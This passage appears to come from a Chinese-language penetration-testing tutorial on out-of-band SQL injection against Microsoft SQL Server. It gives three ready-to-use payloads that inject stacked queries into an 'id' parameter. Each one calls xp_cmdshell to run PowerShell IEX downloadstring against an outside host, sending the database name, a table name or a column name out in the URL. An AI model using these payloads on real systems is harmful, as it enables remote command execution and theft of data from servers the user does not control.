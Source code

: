 #### 获取数据库名

```sql
id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring(''http://192.168.71.63:8000?data='%2b@a%2b''')"') --+
```

![image-20240906092130775](assets/image-20240906092130775-1725772724758-21.png)

#### 获取表名

```sql
id=1';declare @a varchar(8000);set @a=(select top 1 table_name from information_schema.tables);exec('master..xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring(''http://192.168.71.63:8000?data='%2b@a%2b''')"') --+
```

![image-20240906092208841](assets/image-20240906092208841-1725772729965-23.png)

#### 获取字段名

```sql
id=1';declare @a varchar(8000);set @a=(select top 1 column_name from information_schema.columns);exec('master..xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring(''http://192.168.71.63:8000?data='%2b@a%2b''')"') --+
```

![image-20240906092245173](assets/image-20240906092245173-1725772734023-25.png)

------



# smb数据外带
